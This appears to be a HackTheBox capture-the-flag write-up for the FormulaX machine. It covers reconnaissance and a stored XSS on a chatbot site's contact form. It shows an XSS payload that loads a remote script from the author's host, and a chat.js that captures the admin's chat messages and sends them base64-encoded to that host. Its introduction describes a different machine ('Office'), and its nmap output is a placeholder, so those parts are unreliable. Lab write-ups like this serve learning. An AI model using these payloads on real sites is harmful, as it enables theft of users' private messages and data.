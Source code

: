 ```yaml
---
layout: single
title:  "HTB FormulaX Writeup"
seo_title: "Writeup for the HackTheBox FormulaX Machine"
date:   2024-08-22 21:00:00 +0200
categories: ['HackTheBox']
classes: wide
toc: true
header:
    teaser: "/assets/images/headers/Formulax.png"
---
```

Office is a hard-difficulty Windows machine featuring various vulnerabilities including Joomla web application abuse, PCAP analysis to identify Kerberos credentials, abusing LibreOffice macros after disabling the `MacroSecurityLevel` registry value, abusing MSKRP to dump DPAPI credentials and abusing Group Policies due to excessive Active Directory privileges. 

# Reconnaissance
As always, we start with an `nmap` scan of the host.

```console
$ nmap -p- 
test
```

We only find two open ports, `SSH` and `HTTP`, so we will proceed by enumerating the website.

## Website
Browsing to the website, we land on a login page for a `Problem-Solving` chatbot.
![vulnerability-setup-1](../assets/images/writeups/formulax/website-login.png)

We will create a new account. After logging in we can talk to the chatbot and issue the help command. One of the available commands allows us to show previous sent messages.
![vulnerability-setup-1](../assets/images/writeups/formulax/chatbot-help.png)

There is also a contact page and I tried to submit a simple XSS payload:

```http
<img src=x onerror="var s1=document.createElement('script');s1.src='http://10.10.14.167:80/chat.js';document.head.appendChild(s1);"/>
```
![vulnerability-setup-1](../assets/images/writeups/formulax/website-contact.png)

After sending the payload we get a request back. We make a new file called `chat.js` with the following contents.

```
const script = document.createElement('script');
script.src = '/socket.io/socket.io.js';
document.head.appendChild(script);
script.addEventListener('load', function() {
    const res = axios.get(`/user/api/chat`);
    const socket = io('/',{withCredentials: true});
    socket.on('message', (my_message) => {
        fetch("http://10.10.14.167:8888/?c=" + btoa(my_message))
    });
});
```

This script will load the admin users chat messages and send it to our local server.
